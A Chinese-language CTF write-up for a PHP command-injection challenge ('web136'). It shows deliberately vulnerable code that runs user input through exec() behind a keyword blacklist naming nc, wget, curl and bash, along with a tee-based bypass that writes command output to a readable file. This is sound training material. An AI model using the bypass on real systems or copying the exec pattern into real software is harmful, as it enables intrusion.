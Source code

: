 

#### web136

```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

这题要用到一个linux的命令tee

> ### Linux [tee](https://so.csdn.net/so/search?q=tee&spm=1001.2101.3001.7020)命令介绍
>
> `tee`命令在Linux中用于从标准输入读取数据，并将其写入到标准输出和一个或多个文件中。`tee`命令通常与其他命令一起通过管道使用。
>
> 如
>
> ```shell
> ls /|tee 1.txt
> ```
>
> 就可以将ls /的结果写入到1.txt文件中

```
ls /|tee 1
```

这题ban掉了.

访问url/1，下载文件1
